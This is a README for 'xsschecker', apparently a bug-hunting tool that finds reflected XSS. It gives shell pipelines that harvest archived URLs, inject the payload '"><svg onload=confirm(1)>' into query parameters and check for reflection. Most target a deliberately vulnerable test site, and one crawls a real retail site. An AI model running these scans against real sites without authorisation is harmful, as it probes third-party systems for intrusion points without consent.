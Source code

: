 <h1 align="center">xsschecker</h1> <br>

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```bash
go install github.com/rix4uni/xsschecker@latest
```
or

```bash
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Reflected XSS
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | qsreplace -a | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" -x "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | uro | nilo | qsreplace '"><svg onload=confirm(1)>' | airixss -hm -s -c 5
```

urldedupe bhedak
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | xsschecker
```

Airixss XSS
```bash
waybackurls testphp.vulnweb.com | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

Kxss
```bash
waybackurls testphp.vulnweb.com | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

gospider
```bash
gospider -s "https://footlocker.com" -c 10 -d 5 -t 100 --other-source | grep -e "code-200" | awk '{print $5}'| kxss | grep "=" | sed 's/=.*/=/' | uro

